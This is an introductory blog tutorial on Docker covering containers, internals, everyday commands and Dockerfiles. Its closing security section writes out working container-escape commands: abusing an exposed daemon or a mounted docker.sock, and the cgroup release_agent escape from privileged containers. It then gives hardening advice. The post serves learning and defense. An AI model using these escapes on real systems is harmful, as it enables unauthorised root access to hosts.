 ```yaml
---
authors:
- an00b
date: 2022-08-25 12:00:00
description: '*whale noises*'
image: /public/static/frontmatter/docker-logo.jpg
tags:
- docker
- info
- programming
- container
- beginner
- linux
title: Docker Basics for Fun and Profit
---
```


## Intro
I love Docker, and it's something I've gotten the chance to play around with for a bit while on a 10 week internship at [ORGANIZATION](https://www.youtube.com/watch?v=cGw-8FrRT1E). From a beginner's perspective, it's something that can appear to be very intimidating, but the ability to spin up quick virtualized environments can be invaluable in the infosec and software engineering space, so I wanted this blog post to serve as a brief introduction to not only what Docker is and how we can use it, but also covering some of the security issues that can arise when used incorrectly.

## I. What's this Whale doing here?
Quote [AWS](https://aws.amazon.com/docker/):

> "Docker is a software platform that allows you to build, test, and deploy applications quickly. Docker packages software into standardized units called containers that have everything the software needs to run including libraries, system tools, code, and runtime. Using Docker, you can quickly deploy and scale applications into any environment and know your code will run."

Docker was introduced in 2013 to solve the age old issue of "It runs on my machine :/". The idea of "containerization" is fairly simple, we want to separate applications and processes into their own little bubble such that they all pull from the same hardware resources, but they do not step on each other's toes.

For a more practical understanding, suppose you write some Flask webapp that can only work in Python 3.8. If I am a developer on your team, and I do not have the same OS or version of Python, or some other dependency, I have a few options.
1. I install all of the necessary dependencies on my host OS and potentially muck up my current developement environment with more things ([relevant xkcd](https://xkcd.com/1987/))
2. I set up an entire virtual machine (VM) to act as a container with all of the dependencies so I can work on it from there.

The first option is definitely not practical as time goes on. I'm sure many of us have experienced that while learning something like Python, where no one tells you that virtual environments exist until much later and now you have Python 3.6, 3.7, 3.8, and 3.9 installed, along with a random 32-bit version, and nothing makes sense anymore. The second option is a little more feasible, but it also does not scale very well. Especially in production, if I have to create a new operating system for every application I want to run, the computing power necessary to have all of those VMs up scales very quickly. This is where Docker comes in.

Docker's architecture functions very similarly to the latter example involving VMs. Suppose I set up some VMs running their own applications on my server.

<img src="https://www.docker.com/wp-content/uploads/2021/11/container-vm-whatcontainer_2.png.webp" style="width:80%;height:80%"></img>
<sup>Source: [Docker](https://www.docker.com/resources/what-container/)</sup>

Here, we have a server running some kind of hypervisor, like VirtualBox or VMware, and it is running three different virtual machines. Each VM is running an entire operating system and virtualizing hardware along with whatever applications it needs. This setup is fine if you're trying to set up some kind of lab or development environment, because you usually want to run each machine like it's its own computer, but if we're only using VMs to containerize our applications, (1) it takes a lot of space and (2) it takes more computational resources.

<img src="https://www.docker.com/wp-content/uploads/2021/11/docker-containerized-appliction-blue-border_2.png.webp" style="width:80%;height:80%"></img>

Above is a diagram of how Docker works, and it looks very similar to the VM setup. However, in lieu of a hypervisor, we're using the Docker engine to communicate with the host operating system, and on top of that, each application is running in its own environment, without an entire operating system behind it. I'll lightly touch on the internals of Docker in the next section, but TL;DR, these containers are running with a shared OS kernel, but as isolated processes in the user space. Since the only dependency for running a Docker container is the Docker engine, all someone has to do to run your application is have the Docker engine installed, and then issue the relevant command to load up the application.

For instance, when I do cryptography challenges for CTFs, one tool that is necessary for some of the harder challenges is [SageMath](https://www.sagemath.org/), which is an open source alternative to Magma, Maple, Matlab, etc. However, it's notoriously tricky to install sometimes, and even when it's easy, it takes a while and almost a gigabyte of space. The people over at [CryptoHack](https://cryptohack.org) decided to put together an official "CryptoHack" Docker image, that comes with everything you'd need for 90% of cryptography challenges. You can find the repo [here](https://github.com/cryptohack/cryptohack-docker), but once you have Docker installed, all it takes is

```shell
$ docker run -p 127.0.0.1:8888:8888 -it hyperreality/cryptohack:latest
```

and now you have a fully operational instance of Jupyter running with SageMath, z3, and Python installed! We'll break this command down soon enough, but hopefully it's enough of a taste of the power of Docker.

## II. Lemme See its Insides...

> WARNING: The following information is way more than you'd need to start using basic Docker functionality. If you're willing to accept the blackbox that is cgroups, skip to section III. 

Explaining everything that goes into a Docker container and how it works could be its own blog post, but there are people who have already done an excellent job of it, which I'll link here. This section will serve as a brief summary of the concepts discussed in these resources.
- [Ivan Velichko](https://iximiuz.com/en/posts/container-learning-path/) - Learning Containers From The Bottom Up
- [Nitin Agarwal](https://medium.com/@BeNitinAgarwal/understanding-the-docker-internals-7ccb052ce9fe) - Understanding the Docker Internals
- [codementor.io](https://www.codementor.io/blog/docker-technology-5x1kilcbow) - Docker: What's Under the Hood?
- [LiveOverflow](https://www.youtube.com/watch?v=-YnMr1lj4Z8) - How Docker Works - Intro to Namespaces

**Docker is not the end all be all of containerization**. As mentioned earlier, a container is just an isolated and restricted process. A process in an operating system is typically started via some kind of `fork` or `exec` system call. You can view a tree of processes on the typical Linux system using my favorite incident response command, `ps -aef --forest`. When a process is forked off of another process, we call the fork a child process of the parent process, the one that was forked.

```shell
nayr@capacitor:~/docker-101$ ps -aef --forest
UID          PID    PPID  C STIME TTY          TIME CMD
root           2       0  0 18:32 ?        00:00:00 [kthreadd]
root           3       2  0 18:32 ?        00:00:00  \_ [rcu_gp]
root           4       2  0 18:32 ?        00:00:00  \_ [rcu_par_gp]
root           5       2  0 18:32 ?        00:00:00  \_ [netns]
[...trim...]
root         733       1  0 18:33 ?        00:00:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
root         736       1  0 18:33 ?        00:00:00 /usr/bin/containerd
whoopsie     781       1  0 18:33 ?        00:00:00 /usr/bin/whoopsie -f
kernoops     787       1  0 18:33 ?        00:00:00 /usr/sbin/kerneloops --test
kernoops     789       1  0 18:33 ?        00:00:00 /usr/sbin/kerneloops
root         939       1  0 18:33 ?        00:00:02 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
root        1244       1  0 18:34 ?        00:00:00 /usr/sbin/lightdm
root        1268    1244  0 18:34 tty7     00:00:01  \_ /usr/lib/xorg/Xorg -core :0 -seat seat0 -auth /var/run/lightdm/root/:0 -nolisten tcp vt7 -novtswitch
root        1455    1244  0 18:35 ?        00:00:00  \_ lightdm --session-child 12 19
nayr        1490    1455  0 18:37 ?        00:00:00      \_ xfce4-session
nayr        1694    1490  0 18:37 ?        00:00:00          \_ /usr/bin/ssh-agent /usr/bin/im-launch startxfce4
nayr        1739    1490  2 18:37 ?        00:00:00          \_ xfwm4 --replace
[...trim...]
```

However, a container must be isolated and restricted, and there are a number of ways to achieve this separation, but in the context of Docker, we're talking about a few things working together, process namespaces, cgroups, union file system, and `runc`.
- **Namespaces**. A namespace is a feature of the Linux kernel that isolates groups of processes from each other. In the context of a container, this makes sure that a process running within the container can't interact with a process running on the host OS. 
- **Cgroups**. A cgroup is another feature of the Linux kernel that constrains what resources a process has access to, specifically stuff like CPU and memory. This allows Docker to prevent the containers running on a machine to consume all of the hardware resources on the host.
- **Union File System**. The Union File System has more to do with constructing images, and without getting into the details of that, it simply handles the changes made to a filesystem when a Docker image is being built to form one coherent filesystem.
- **runc**. runc is a container runtime that ties a lot of this together by doing the low level work of preparing the container and starting the containerized process. Theoretically, you could create containers with runc alone, but it isn't very developer-friendly.

You'll notice that we keep talking about Linux here, and that's because Docker relies on Linux kernel functions to actually do anything that it does. You may have also heard that you can use Docker Desktop on Windows and Mac. This works (from my understanding) by installing a small Linux kernel that is solely dedicated to handling Docker processes.

The article by [Ivan Velichko](https://iximiuz.com) has a really good graphic that ties all of this together. 
![thank you ivan](https://iximiuz.com/container-learning-path/docker-containerd-runc-2000-opt.png)

If you take a step back, Docker is really just abstraction for `containerd`, which is just abstraction for what `runc` does. Although the name "Docker" is almost ubiquitous with the idea of a container, there are plenty of alternatives that are not Docker.
- [podman](https://podman.io/)
- [buildah](https://buildah.io/)
- [skopeo](https://github.com/containers/skopeo)
- [kaniko](https://github.com/GoogleContainerTools/kaniko)
- [lxd](https://linuxcontainers.org/lxd/introduction/)
- And many more.

Again, definitely refer to the articles linked before, you can take a very deep dive into the process of containerization and virtualization which goes well beyond the scope of this blog post. But now, how do we use any of this?

## III. Call Me Ishmael
<sup>I've never actually read Moby Dick but I think this is relevant</sup>

### Using Containers
> Note that I will be working off of my Linux dev machine because that is easiest, instructions might be different if you're on Windows or Mac.

Docker has a number of features, and the best place to read up on all of the things it can do is the documentation found [here](https://docs.docker.com/). I won't cover the installation instructions here because the docs lay it out pretty clearly, but let's talk about actually using the application.

The simplest usage is probably following install instructions on a GitHub application's README page. If you've ever poked around GitHub repos before (you're telling me people don't browse the Explore tab for fun?), you've probably seen "Docker Install" instructions before. Going back to our command before:

```shell
$ docker run -p 127.0.0.1:8888:8888 -it hyperreality/cryptohack:latest
```
What's going on here?
- The `docker run` is a subcommand that "runs a command in a new container", which is usually the command to actually spin up a new container, but you can also just use it to run commands
- The `-p` command tells the docker engine to publish a container's ports to the host. In this case, we're basically port forwarding the container's port 8888 to our own host's port 8888 (127.0.0.1 was specified instead of the default 0.0.0.0 because of some technicalities with Jupyter).
- The `-it` flag is a combination of the `-i` and `-t` flags that makes the container interactive (i.e. keeping STDIN open) and allocates a tty.
- `hyperreality/cryptohack:latest` refers to the image, i.e. the snapshot of the program with its dependencies, that will be run. In this case, we're referring to an image that is located on an official Docker registry (which is like GitHub/GitLab but for Docker images). The `latest` is a tag that we're referring to, that usually indicates version or the type of build.

If I run this command, the first thing I see is Docker noticing that I do not have the specified image downloaded, so it does that for me:
```shell
nayr@capacitor:~/docker-101$ docker run -p 127.0.0.1:8888:8888 -it hyperreality/cryptohack:latest
Unable to find image 'hyperreality/cryptohack:latest' locally
latest: Pulling from hyperreality/cryptohack
3386e6af03b0: Extracting [==================================================>]  44.12MB/44.12MB
49ac0bbe6c8e: Download complete 
d1983a67e104: Download complete 
1a0f3a523f04: Download complete 
bb9c300c9fea: Download complete 
f505d9c0453f: Download complete 
52b0902eb711: Download complete 
5fae596cfdf8: Download complete 
a9871dcf4c86: Downloading [================================>                  ]  416.1MB/630.5MB
5bdd900d09e2: Download complete 
8afac9aafedc: Download complete 
f080b87236dc: Download complete 
e370aae9e312: Download complete 
9a15ea0e5fc0: Download complete 
e8afa58620b5: Download complete 
145250bfb4c1: Download complete
```

Each of those lines represents a **layer** of the image, which is like a building block for the image to be built. Once all of them have been downloaded and extracted, we're greeted with the output of this application, which as mentioned earlier, is a Jupyter notebook server.

```shell
---------------------------------- 
CryptoHack Docker Container 

After Jupyter starts, visit http://127.0.0.1:8888 
---------------------------------- 

┌────────────────────────────────────────────────────────────────────┐
│ SageMath version 9.0, Release Date: 2020-01-01                     │
│ Using Python 3.7.3. Type "help()" for help.                        │
└────────────────────────────────────────────────────────────────────┘
Please wait while the Sage Jupyter Notebook server starts...
[I 00:53:31.511 NotebookApp] Using MathJax: nbextensions/mathjax/MathJax.js
[I 00:53:31.574 NotebookApp] Writing notebook server cookie secret to /home/sage/.local/share/jupyter/runtime/notebook_cookie_secret
[W 00:53:36.985 NotebookApp] All authentication is disabled.  Anyone who can connect to this server will be able to run code.
[I 00:53:37.044 NotebookApp] Serving notebooks from local directory: /home/sage
[I 00:53:37.045 NotebookApp] The Jupyter Notebook is running at:
[I 00:53:37.047 NotebookApp] http://(2c489fb0dd4d or 127.0.0.1):8888/
[I 00:53:37.047 NotebookApp] Use Control-C to stop this server and shut down all kernels (twice to skip confirmation).
```

If we navigate to `localhost[:]8888`, we see the Jupyter notebook interface.

![asdf](https://an00brektn.github.io/img/docker-101/Pasted%20image%2020220825195520.png)

If you hate the GUI or you just need to poke around inside the container, you can get a shell by using the following command.

```shell
$ docker exec -it CONTAINER_ID_OR_NAME /bin/bash
```

You can then navigate around the container as if it were a real Linux machine! You'll notice that most containers have the absolute bare minimum needed to run. For instance, you won't always find `sudo` or `su` installed like you would on a normal Linux machine. This barebones-ness is extremely evident if you list the currently running processes.

```shell
sage@1b75abad9270:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
sage           1  0.0  0.0  11324  2640 pts/0    Ss+  01:07   0:00 /bin/bash --norc -c echo -e $BANNER && sage -n jupyter --NotebookApp.token='' --no-browser --ip='0.0.0.0' --port=8888
sage          38  0.0  0.0  11328  2724 pts/0    S+   01:07   0:00 bash /home/sage/sage/src/bin/sage-python /home/sage/sage/src/bin/sage-notebook -n jupyter --NotebookApp.token= --no-browser --ip=0.0.0.0 --port=8888
sage          41  1.0  1.1 192640 44780 pts/0    S+   01:07   0:01 python3 /home/sage/sage/src/bin/sage-notebook -n jupyter --NotebookApp.token= --no-browser --ip=0.0.0.0 --port=8888
sage          47  0.0  0.0  19968  3580 pts/1    Ss   01:08   0:00 /bin/bash
sage          57  0.0  0.0  36132  3108 pts/1    R+   01:10   0:00 ps aux
```
The astute observer will also notice that the process of PID 1 is not the `init` process, but just a bash oneliner that is running the program. This opens up a discussion about internals once again that you can research on your own to get a full, in-depth answer.

Using the Docker documentation and help commands, you should be able to figure out what this [TruffleHog](https://github.com/trufflesecurity/trufflehog) Docker command is doing. There are far too many flags and subcommands in Docker
```shell
$ docker run -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest github --org=trufflesecurity
```

### Managing Your Images
Once you have a few images, you might want to to actually keep track of what's going on with your containers.

You can view the images you have downloaded and built using `docker image ls`.
```shell
nayr@capacitor:~/docker-101$ docker image ls
REPOSITORY                TAG            IMAGE ID       CREATED         SIZE
python                    latest         d25a66380b10   2 days ago      921MB
node-red-target           latest         ddcb729ca11b   3 weeks ago     604MB
ubuntu                    latest         df5de72bdb3b   3 weeks ago     77.8MB
nodered/node-red          latest         bf4e92b68063   4 weeks ago     474MB
mongo                     4              4efbd72d3ba6   2 months ago    443MB
rabbitmq                  3-management   177cd13b34b5   2 months ago    257MB
alpine                    3              e66264b98777   3 months ago    5.53MB
alpine                    latest         e66264b98777   3 months ago    5.53MB
postgres                  13-buster      346c7820a8fb   11 months ago   315MB
hyperreality/cryptohack   latest         de39b4ffaafd   2 years ago     2.48GB
```

I can delete an image using `docker image rm`.
```shell
nayr@capacitor:~/docker-101$ docker image rm alpine:3
Untagged: alpine:3
nayr@capacitor:~/docker-101$ docker image ls
REPOSITORY                TAG            IMAGE ID       CREATED         SIZE
python                    latest         d25a66380b10   2 days ago      921MB
node-red-target           latest         ddcb729ca11b   3 weeks ago     604MB
ubuntu                    latest         df5de72bdb3b   3 weeks ago     77.8MB
nodered/node-red          latest         bf4e92b68063   4 weeks ago     474MB
mongo                     4              4efbd72d3ba6   2 months ago    443MB
rabbitmq                  3-management   177cd13b34b5   2 months ago    257MB
alpine                    latest         e66264b98777   3 months ago    5.53MB
postgres                  13-buster      346c7820a8fb   11 months ago   315MB
hyperreality/cryptohack   latest         de39b4ffaafd   2 years ago     2.48GB
```

We can see what Docker images are currently running with `docker ps`.
```shell
nayr@capacitor:~/docker-101$ docker ps
CONTAINER ID   IMAGE                            COMMAND                  CREATED         STATUS         PORTS                      NAMES
2c489fb0dd4d   hyperreality/cryptohack:latest   "/usr/local/bin/sage…"   8 minutes ago   Up 7 minutes   127.0.0.1:8888->8888/tcp   interesting_shamir
```

Sometimes, when developing Docker containers, you might have accidentally kill a container forcibly, leaving it in a weird "exited but not gone" state. You can see those ones using `docker ps -a`. If I want to kill the currently running container, I could go into the terminal window and use CTRL+C, but it's best practice to use `docker stop` so it exits safely. You can refer to a container either by its ID or the random name that it gets assigned.

```shell
nayr@capacitor:~/docker-101$ docker stop interesting_shamir 
interesting_shamir
```

If you run `ip a` or `ifconfig`, you'll probably notice a new network adapter on your host. Like how hypervisors have their own network adapters to handle communication between VMs, Docker also has its own internal network, typically some kind of 172.x.x.0/24 network.

Once again, I highly encourage you to play around with some of these commands yourself, because there's a lot you can do here, including setting up networks of containers, which could honestly be its own post if I really wanted. If you do eventually become a Docker aficionado, I do recommend possibly using some of these nifty [aliases](https://gist.github.com/jgrodziski/9ed4a17709baad10dbcd4530b60dfcbb) to speed up your terminal work.

### Write Your Own!
Building Docker containers is not some exclusive activity, and it's super easy to set them up. There are three main components to keep in mind here.
1. **Dockerfile**. This file is where you write the instructions that actually build a given container. Here, you usually give all of the commands that install dependencies, setup users, expose ports, etc.
2. **Image**. This is what a Dockerfile builds, which is essentially a snapshot of the application environment after the Dockerfile runs through all of its commands.
3. **Containers**. As we've seen, containers are what runs the image and what you end up interacting with

We can set up the smallest, simplest, "Hello World!" container in just a few lines of code. In a new directory, create a Dockerfile file, and add the following lines to it.

```dockerfile
FROM alpine:latest

RUN apk update && apk upgrade && \
    apk add vim
RUN adduser -D appuser

USER appuser
CMD ["echo", "I love whales"]
```

So it's not the world's smallest container technically, but I wanted to have more to talk about than an echo command.
- `FROM alpine:latest` tells Docker that we want to base our image off of the existing official Alpine Linux Docker container. This is common, and typically establishes the operating system and/or the code environment that will be set up.
- The two `RUN` commands are executed in separate layers. The first one updates and upgrades the packages (Alpine Linux uses the `apk` package manager). The second adds a user called `appuser`, which leads into the next line.
- `USER appuser` tells the container to run in the context of the `appuser` user. A container runs as the `root` user by default, which isn't *as bad* compared to doing it on a real server, but security considerations come later
- `CMD` is the command that the image runs when called. In place of this, you might also see `ENTRYPOINT`, which is similar in the sense that it runs the main application of the container, but you cannot pass arguments to the entrypoint like you would the cmd. (If that didn't make sense read [this](https://www.bmc.com/blogs/docker-cmd-vs-entrypoint/), it helped clarify things for me a lot)

We can build the container using `docker build -t NAME:TAG DIRECTORY`, and we can see all of the layers, except for our CMD, being executed.
```shell
nayr@capacitor:~/docker-101$ docker build -t hello-world:latest .
Sending build context to Docker daemon   2.56kB
Step 1/5 : FROM alpine:latest
 ---> e66264b98777
Step 2/5 : RUN apk update && apk upgrade &&     apk add vim
 ---> Running in 81275251a333
fetch https://dl-cdn.alpinelinux.org/alpine/v3.16/main/x86_64/APKINDEX.tar.gz
fetch https://dl-cdn.alpinelinux.org/alpine/v3.16/community/x86_64/APKINDEX.tar.gz
v3.16.2-101-g5201df137e [https://dl-cdn.alpinelinux.org/alpine/v3.16/main]
v3.16.2-105-g93db4443dc [https://dl-cdn.alpinelinux.org/alpine/v3.16/community]
OK: 17033 distinct packages available
(1/8) Upgrading alpine-baselayout-data (3.2.0-r20 -> 3.2.0-r22)
(2/8) Upgrading busybox (1.35.0-r13 -> 1.35.0-r17)
Executing busybox-1.35.0-r17.post-upgrade
(3/8) Upgrading alpine-baselayout (3.2.0-r20 -> 3.2.0-r22)
Executing alpine-baselayout-3.2.0-r22.pre-upgrade
Executing alpine-baselayout-3.2.0-r22.post-upgrade
(4/8) Upgrading ca-certificates-bundle (20211220-r0 -> 20220614-r0)
(5/8) Upgrading libcrypto1.1 (1.1.1o-r0 -> 1.1.1q-r0)
(6/8) Upgrading libssl1.1 (1.1.1o-r0 -> 1.1.1q-r0)
(7/8) Upgrading ssl_client (1.35.0-r13 -> 1.35.0-r17)
(8/8) Upgrading zlib (1.2.12-r1 -> 1.2.12-r3)
Executing busybox-1.35.0-r17.trigger
OK: 6 MiB in 14 packages
(1/5) Installing xxd (8.2.5000-r0)
(2/5) Installing lua5.4-libs (5.4.4-r5)
(3/5) Installing ncurses-terminfo-base (6.3_p20220521-r0)
(4/5) Installing ncurses-libs (6.3_p20220521-r0)
(5/5) Installing vim (8.2.5000-r0)
Executing busybox-1.35.0-r17.trigger
OK: 35 MiB in 19 packages
Removing intermediate container 81275251a333
 ---> a953674ed2f9
Step 3/5 : RUN adduser -D appuser
 ---> Running in da275f859726
Removing intermediate container da275f859726
 ---> 75fc5c40040a
Step 4/5 : USER appuser
 ---> Running in 606f5833eece
Removing intermediate container 606f5833eece
 ---> 6079bb7c3e1f
Step 5/5 : CMD ["echo", "I love whales"]
 ---> Running in ffae8e51c700
Removing intermediate container ffae8e51c700
 ---> 155b894bf7b8
Successfully built 155b894bf7b8
Successfully tagged hello-world:latest
```

Once we want to run our container, which should only print "I love whales", we can issue the below command:
```shell
nayr@capacitor:~/docker-101$ docker run hello-world
I love whales
```

And, surprisingly, that's all there really is to making a custom Docker container. The real challenge is when you get to bigger applications with many more dependencies and requirements to set up, and you have to automate all of that. One thing that really helped me get more familiar with Dockerfiles is just looking at how other people did them. If you're a chronic CTF player like I am, you'll notice in many of the whitebox web challenges, where you're given the source code to the application, they don't only give you the code, but they also give you the Dockerfile to be able to run it locally without having to install every single, probably vulnerable, library and file. [HackTheBox](www.hackthebox.com)'s web challenges almost all have downloads like this, many of which set up all of the frontend and backend components at run time. Below is an example I made for a (baby easy) web challenge for a [local event](https://github.com/An00bRektn/flyer-ctf) I ran.

```Dockerfile
FROM alpine:latest

# Setup user
RUN adduser -D -u 1000 -g 1000 -s /bin/sh www

# Install system packages
RUN apk add --no-cache --update php7-fpm supervisor nginx

# Configure php-fpm and nginx
COPY config/fpm.conf /etc/php7/php-fpm.d/www.conf
COPY config/supervisord.conf /etc/supervisord.conf
COPY config/nginx.conf /etc/nginx/nginx.conf

# Copy challenge files
COPY challenge /www

# Setup permissions
RUN chown -R www:www /var/lib/nginx

# Expose the port nginx is listening on
EXPOSE 80

# Copy entrypoint
COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh

# Start the php application
ENTRYPOINT [ "/entrypoint.sh" ]

# Populate database and start supervisord
CMD /usr/bin/supervisord -c /etc/supervisord.conf
```

Admittedly, I did copy off of HackTheBox's Dockerfile for Toxic, which was another PHP application, but I did learn from it. Here, we're starting with another Alpine Linux base image, and then setting up the `www` user to run the website. We then move all of the configuration files and challenge files to the relevant locations. After this, we set up the permissions, and use the `EXPOSE` command to open the port for the web service. An `entrypoint.sh` script is used to handle any additional system configuration (normally this would handle database stuff because you wouldn't really want to do that in a layer but I didn't use a database for this challenge), and then we start everything up using `supervisord`.

And those are pretty much the basics to setting up your own Docker image. This is one of those things you learn best by doing. One thing I should probably mention before moving on is that you can also use `docker compose` to spawn and stop multiple containers at the same time, all managed from a single file. This is especially useful when you want to set up a network of Docker containers, or just a distributed application. Like the Dockerfile, this is truly best understood and learned by reading documentation and looking at existing implementations, because it's really not that complicated, you just have to understand what switches you have at your disposal.

Here are some examples of Docker Compose files that you can learn from
- [CTFd/CTFd](https://github.com/CTFd/CTFd/blob/master/docker-compose.yml) - a framework for setting up Capture the Flag events
- [docker/awesome-compose](https://github.com/docker/awesome-compose) - an entire repository dedicated to compose examples, with every single application stack you could imagine
- [sprintcube/docker-compose-lamp](https://github.com/sprintcube/docker-compose-lamp) - LAMP stack application built with Docker and Docker Compose

![hax](https://i.giphy.com/media/KmHueA88mFABT9GkkR/giphy.webp)

## IV. Gib Hax
Alright, alright. Like any application, Docker is not free from its share of misconfigurations and security issues. I am not cracked enough to show you any crazy, novel container escape exploits, but I will say the currently known exploits are pretty well documented online.
- [TryHackMe's The Docker Rodeo](https://tryhackme.com/dockerrodeo) is a subscriber-only room by [CMNatic](https://github.com/CMNatic) and is honestly a really great walkthrough room which discusses some of the security issues that can be present in not only Docker containers but Docker registry configurations.
- [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation) obviously has an entire entry on this, I don't need to explain any more.
- [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html) and [Docker](https://docs.docker.com/engine/security/) both have pretty well written guides on Docker hardening

There are also plenty of container enumeration tools out there that you can find, but my favorites are [deepce.sh](https://github.com/stealthcopter/deepce) and [CDK](https://github.com/cdk-team/CDK). All of this together, we will only take a surface level look at some of the potential security issues, but enough so that you get an idea of where issues may lie.

### RCE and Escape via Exposed Docker Daemon
Communication with Docker happens over sockets, but not in the conventional network socket you probably learned about in your Intro to Networks class. Functionally, they're similar in the sense that they facilitate the transfer of data over a stream from point A to point B, but Docker uses what's called a UNIX socket,  which is specifically for inter-process communication. All communication happens through the kernel as opposed to the network. This is also the reason you have to be in the `docker` group or have `sudo` permissions to run Docker without getting a socket error.

If someone is communicating with the Docker daemon over the network, there is likely a way for you to abuse it. If it's configured to listen on the network, the default port is 2375, and you can verify whether or not you have command access by doing

```shell
$ curl http://IP_ADDRESS:2375/version
```

From here, you can get access to arbitrary docker commands like so, using any argument you want in place of `ps`.
```shell
$ docker -H IP_ADDRESS:2375 ps
```

You can start executing whatever Docker commands you want, or just escalate privileges in whatever magical way you come up with (there are ways but finding them is easy).

But what if your target isn't completely oblivious to this issue? If you are in a container, and you find that the `docker.sock` file is in the container, you abuse this as well. Assuming you have the privileges to run `docker` from within the container, and an image like `alpine` is already on the box, running the below command is an instant escape. 

```shell
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

We mount the host's root directory to the `/mnt` directory in a new container and enter that new container with `sh`.

### Privileged Containers
Privileged containers are fundamentally less secure than non-privileged containers. Referring to the diagram from before, Docker containers typically communicate with the Docker Engine, which then talks to the host OS. In the case of a privileged container, however, a container communicates directly with the host OS, which can be abused.

We can create a privileged container on our host like so:
```shell
$ docker run --rm -it --privileged ubuntu bash
```

We can enumerate the capabilities we have using `capsh --print`. The capability we will focus on is `cap_sys_admin`, but some of the other setups are described in Hacktricks. [Felix Wilhelm](twitter.com/@_fel1x) was the one who discovered this specific PoC, but this [TrailOfBits post](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes) explains the details of the exploit in much more depth than will be covered here.

```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo "COMMAND" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

From a very high level overview, we are abusing the fact that we are in a privileged container, which allows us to manage cgroups as root on the host, meaning we can create our own cgroup. Once we make a new cgroup (the 'x'), we abuse `notify_on_release`, which will execute some arbitrary comand once the cgroup exits, which we can then use to do quite literally anything as root on the host OS.

### runc Exploit (CVE-2019-5736)
In versions of Docker < 18.09.2, a vulnerable version of `runc` is used which can be exploited if you can execute `docker exec` as root. It works by overwriting `/bin/sh` with `#!/proc/self/exe`, a symlink to the binary that started the container, which can be leveraged to write to the `runc` binary itself to escalate privileges. This vulnerability is described in further depth by [Unit 42](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/), and can be seen in [HackTheBox's TheNotebook](https://youtube.com/watch?v=S4FrlMTY0GY&t=1900) machine. You can find a proof of concept [here](https://github.com/Frichetten/CVE-2019-5736-PoC/blob/master/main.go).

### Additional Exploitation Things
- As mentioned earlier, containers can operate in their own networks, so the same techniques that are used to move laterally on a real network can be applied here to access other containers.
- Volumes can be mounted to containers as shown in my [GoodGames](https://notateamserver.xyz/uni-ctf-goodgames/#shell-as-augustus) writeup, and can be abused in similar ways that you'd abuse any mounted share on a Linux system.
- Environment variables likely contain cleartext passwords or secret keys that may allow you to not even bother with a Docker escape and get right into another component

### Defense
Docker, when implemented in an environment, inherently provides some security via containerization, either intentionally or unintentionally. If you're managing the DMZ for an organization, and somehow an attacker is able to get RCE on a webapp and break in, their code execution is limited to the confines of the container. While there may be ways to leverage what's in the container to pivot somewhere else, it does create nice level of separation between the host and the application. However, when configured incorrectly, Docker can be the way that someone goes from low level access to full domain access.

I think the OWASP and Docker articles posted earlier do a very good job at covering most of the ideas, but I'd like to reiterate a few here
- **Keep your systems updated**. Just because it's in a container doesn't mean its impenetrable, and as we saw with the `runc` exploit, an outdated version of Docker can lead to full compromise. Additionally, the container itself is its own environment that needs to be inventoried and updated. Kernel privilege escalation like [Dirty COW](https://github.com/scumjr/dirtycow-vdso) in a container will lead to root access on the host.
- **Principle of Least Privilege**. Is it not the end of the world to be running a container as the `root` user? Not necessarily. But it does minimize the potential for additional damage down the line. This rule also applies to the container itself. A Docker container can have capabilities, but too many capabilities could lead to escapes.
